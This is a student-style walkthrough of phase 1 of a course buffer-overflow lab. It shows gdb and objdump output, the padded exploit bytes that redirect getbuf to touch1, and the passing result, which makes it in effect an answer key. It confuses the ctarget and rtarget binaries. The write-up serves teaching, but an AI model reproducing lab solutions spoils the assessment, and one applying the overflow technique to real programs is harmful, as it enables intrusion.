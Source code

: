 Phase 1 is the easiest of the 5. What you are trying to do is overflow the stack with the exploit string and change the return address of 
getbuf function to the address of touch1 function. You are trying to call the function touch1.

run ctarget executable in gdb and set a breakpoint at getbuf

`b getbuf`

Then disasemble the getbuf function

`disas`

Since the buffer size is a run time constant, we need to look at the disasembled code to figure it out.

```
Dump of assembler code for function getbuf:
=> 0x0000000000401748 <+0>:	    sub    $0x18,%rsp
   0x000000000040174c <+4>:	    mov    %rsp,%rdi
   0x000000000040174f <+7>:	    callq  0x40198a <Gets>
   0x0000000000401754 <+12>:	    mov    $0x1,%eax
   0x0000000000401759 <+17>:	    add    $0x18,%rsp
   0x000000000040175d <+21>:	    retq   
End of assembler dump.
```

If you look at `sub    $0x18,%rsp`, you can see that 24 (0x18) bytes of buffer is allocated for getbuf.

Now you know the buffer size and you need to input 24 bytes of padding followed by the return address of the touch1 address.

To find the address the touch1, you need to get the dissasembled code for ctarget executable.

`objdump -d rtarget > rtarget_dump.txt`

The above command will save the dissasembled code in file rtarget_dump.txt open that file and find the touch1 function.

I found touch1 inside rtarget which looked like

```
0000000000401760 <touch1>:
  401760:	48 83 ec 08          	sub    $0x8,%rsp
  401764:	c7 05 0e 31 20 00 01 	movl   $0x1,0x20310e(%rip)        # 60487c <vlevel>
  40176b:	00 00 00 
  40176e:	bf 78 30 40 00       	mov    $0x403078,%edi
  401773:	e8 98 f4 ff ff       	callq  400c10 <puts@plt>
  401778:	bf 01 00 00 00       	mov    $0x1,%edi
  40177d:	e8 17 05 00 00       	callq  401c99 <validate>
  401782:	bf 00 00 00 00       	mov    $0x0,%edi
  401787:	e8 24 f6 ff ff       	callq  400db0 <exit@plt>
```

So it's address is at `0x401760`

When you write the bytes, you need to consider the byte order. My system is a little-endian so the bytes go in reverse order.

Finally create a text file named phase1.txt which will look like below
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* the first 24 bytes are just padding */
60 17 40 00 00 00 00 00 /* address of touch1 */
```

Now you need to take this file and run it through the program hex2raw, which will generate raw exploit strings

`./hex2raw < phase1.txt > raw-phase1.txt`

Finally, you run the raw file

`./ctarget < raw-phase1.txt`

You will get something like below if your solution is right.

```
Cookie: 0x434b4b70 //your cookie will be different
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target rtarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```
